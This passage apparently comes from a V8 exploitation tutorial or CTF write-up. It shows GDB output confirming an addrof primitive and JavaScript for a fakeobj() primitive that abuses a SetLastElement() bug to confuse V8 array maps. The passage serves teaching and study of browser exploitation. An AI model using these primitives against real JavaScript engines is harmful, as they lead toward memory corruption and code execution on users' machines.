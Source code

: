 ```GDB
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.
pwndbg> p/x 134768701
$1 = 0x808683d
```

The `p/x` syntax tells GDB to print the value as a hexadecimal, and we can see that  `0x808683d` matches what `%DebugPrint()` told us - `0x03380808683d` (compressed 32-bit vs uncompressed 64-bit pointers, remember). Note that when running the release build of d8, the output of `%DebugPrint()` is very limited, but it is enough to prove we have built a working primitive - a v8 DNS of sorts, where we can look up something by name and get its address. Except that aside from that, it is nothing like DNS at all. But if it helps you think about, it's kinda just like DNS. Except it isn't, at all.


## Creating a fake object

Discontent with merely knowing where stuff lives, let's extend our capabilities by convincing v8 that any random address we give it points to an object. This logic is basically the reverse of the `addrof()` function when you think about it. We create an array where the first index holds a pointer typecast as a float, and we abuse the `SetLastElement()` function to make v8 believe this is an array of Objects instead of Floats. When we then ask v8 to create a handle to that (fake) object, we can set the Map pointer back, and return a variable that point to an address in memory that v8 will let us address like an object.

We can then go full circle in testing and use this to get a crafted instance of one of our existing objects, just to prove it works.

```javascript
function fakeobj(addr) {
    // First, put the address as a float into index 0 of the float array
    float_arr[0] = integer_to_float(addr, 32);

    // Change the float array's map to the obj array's map
    float_arr.SetLastElement(obj_arr_map);

    // Get a fake "object" at that memory location and store it
    let fake = float_arr[0];

    // Set the map back
    float_arr.SetLastElement(float_arr_map);

    // Return the object
    return fake;
}

obj3 = fakeobj(addrof(obj1))

console.log("Address of obj1:", addrof(obj1))
console.log("Address of obj3:", addrof(obj3))

console.log("Value of A of obj1:", obj1["A"])
console.log("Value of A of obj3:", obj3["A"])
```
